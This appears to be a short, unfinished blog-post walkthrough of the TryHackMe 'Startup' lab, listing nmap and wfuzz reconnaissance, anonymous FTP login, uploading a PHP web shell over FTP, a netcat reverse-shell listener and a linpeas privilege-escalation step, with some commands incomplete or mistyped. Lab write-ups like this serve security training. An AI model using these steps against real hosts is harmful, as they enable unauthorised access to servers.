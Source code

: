 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
  
> sudo nmap -sC -sV startup.thm

<p align="left">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

FTP login with username is anonymous and password is anonymous 

> ftp startup.thm

<p align="center">
<img src="/assets/img/startup/nmap.png" width="350"/>
</p>

> get 
> 
> get 

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



